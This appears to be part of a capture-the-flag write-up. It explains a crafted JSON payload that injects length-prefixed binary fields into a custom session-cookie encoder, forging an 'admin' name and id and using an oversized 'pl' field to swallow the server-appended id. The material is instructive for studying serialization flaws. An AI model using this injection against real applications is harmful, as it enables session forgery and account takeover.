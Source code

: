 ```javascript  
// PAYLOAD BEFORE ENCODING  
{  
   'name': 'nytr0gen31337',  
   'age': 20,  
   'desc': 13,  
   "zzzz\u00bd\u00bd\u00bd\u00bd\u00bd\u0001\u0005\u0000\u0000\u0000":
"\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin" +  
       "\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918" +  
       "\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5" +  
       "\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000",  
   'password':
'65e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5',  
   'id': 'deadbeefb5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'  
}  
```

What interests us is this part  
```  
"zzzz\u00bd\u00bd\u00bd\u00bd\u00bd\u0001\u0005\u0000\u0000\u0000":  
   "\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin" +  
"\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918"
+  
"\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5"
+  
   "\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000",  
```

So we have `4*z`, `5*\u00bd` and `\u0001\u0005\u0000\u0000\u0000`. This helps
us skip 5 magic header bits from the key. Specifically
`\u0001\u00bb\u0000\u0000\u0000`. So everything in the value part gets decoded
as new keys.

name. `\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin` admin
yeah

id.
`\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918`.
sha256('admin')

password.
`\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5`.
sha256('qwerty')

As you have seen before, id is always put last when creating the session
cookie. We have to make the decoder skip it, because it will overwrite our id.
bad.

`\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000`. this does exactly
that. under the key `pl` with a length of `\u00ff\u00ff\u0000\u0000 == 65535`.
It seems that if I tried a length lesser than what was after it, the script
will fail miserably. But anything bigger is cool.
